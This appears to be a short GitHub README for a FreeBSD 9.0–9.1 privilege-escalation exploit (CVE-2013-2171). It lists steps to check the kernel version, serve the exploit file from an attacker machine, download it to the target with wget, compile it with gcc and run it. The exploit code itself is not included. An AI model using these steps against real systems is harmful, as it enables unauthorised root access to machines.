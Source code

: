 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

**1° Check the kernel version**

uname -a

**2° Transfer this file to target**

Attacker machine -> python3 -m http.server 8080
Target machine -> wget IP:8080/26368.c

**3° Use GCC to compile the code**
gcc 26368.c -o exploit

**4° Run the exploit**
./exploit
